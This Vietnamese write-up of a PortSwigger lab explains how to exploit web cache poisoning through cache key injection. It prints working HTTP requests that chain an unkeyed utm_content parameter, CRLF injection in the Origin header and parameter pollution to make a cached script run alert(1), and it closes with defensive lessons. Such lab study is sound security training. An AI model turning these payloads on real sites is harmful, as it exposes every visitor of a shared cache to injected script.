







# Write-up: Cache key injection

### Tổng quan
Khai thác lỗ hổng **Web Cache Poisoning** kết hợp **Cache Key Injection** và **DOM-based XSS** trong ứng dụng web, nơi tham số `lang` và header `Origin` được sử dụng để xây dựng thuộc tính `src` của script `localize.js` mà không được lọc đúng cách. Bằng cách sử dụng `utm_content` (unkeyed parameter) và `Origin` để inject payload XSS vào cache, kẻ tấn công khiến trang chủ thực thi `alert(1)` trong trình duyệt nạn nhân, tận dụng header `Pragma: x-get-cache-key` để kiểm tra hành vi cache.

### Mục tiêu
- Khai thác lỗ hổng **Web Cache Poisoning** bằng cách inject header `Origin` và tham số `utm_content` để poison cache, thao túng thuộc tính `src` của script `localize.js`, khiến trang chủ thực thi `alert(1)` trong trình duyệt nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác

#### 1. Xác định vị trí poison
- Gửi request đến trang login và quan sát redirect:  
  ```
  GET /login?lang=en HTTP/2
  Host: 0ao9022w23xy4567s0tu212300vw00ts.web-security-academy.net
  ```  
  Kết quả: Redirect đến `/login/?lang=en`.  
    

- Quan sát request `GET /login/?lang=en`, server import file JavaScript với thuộc tính `src`:  
  ```
  src='/js/localize.js?lang=en&cors=0'
  ```  
  Cả hai request `GET /login/?lang=en` và `GET /js/localize.js?lang=en&cors=0` đều được cache.  
    

- Kiểm tra header `Origin`, nhận thấy nó nằm trong cache key và có thể được inject để thay đổi response khi `cors=1`.  

- Poison cache và gửi request để kiểm tra response từ cache:  
    

- Xác định payload để thao túng thuộc tính `src` của script:  
  ```
  /js/localize.js?lang=en&cors=1&x=bla$$origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
  ```  

- Sử dụng fuzzing với Param Miner, phát hiện tham số `utm_content` không được include trong cache key (unkeyed parameter).  
    

#### 2. Khai thác web cache thực hiện XSS
- Gửi request để poison cache với header `Origin` chứa payload XSS:  
  ```
  GET /js/localize.js?lang=en?utm_content=z&cors=1&x=1 HTTP/2
  Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
  ```  
    

- Poison cache tại endpoint `/login`, sử dụng `utm_content` để đảm bảo tham số `lang` được giữ nguyên và inject payload:  
  ```
  GET /login?lang=en?utm_content=lick%26cors=1%26x=1$$origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/2
  ```  
  - **Giải thích**: Tham số `utm_content` là unkeyed, cho phép inject `cors=1&x=1` và `Origin` vào thuộc tính `src`. `%23` ở cuối để thực hiện **HTTP Parameter Pollution**, cắt bỏ `&cors=0` trong URL gốc.  
    

- Kết quả: Payload XSS được cache, thực thi `alert(1)` trong trình duyệt nạn nhân, lab hoàn thành.  
    

### Bài học rút ra
- Hiểu cách khai thác **Web Cache Poisoning** kết hợp **Cache Key Injection** và **DOM-based XSS**, sử dụng unkeyed parameter (`utm_content`) và header `Origin` để thao túng thuộc tính `src` và chèn payload XSS.  
- Nhận thức tầm quan trọng của việc xác định và lọc các tham số unkeyed, kiểm tra header như `Origin`, và vô hiệu hóa cache cho các endpoint động để ngăn chặn các cuộc tấn công cache poisoning.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Web Cache Poisoning** thông qua **Cache Key Injection**, nhấn mạnh tầm quan trọng của việc cấu hình cache an toàn, xác thực đầu vào, và xử lý tham số để ngăn chặn thực thi mã độc trong trình duyệt nạn nhân. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 10/2025.*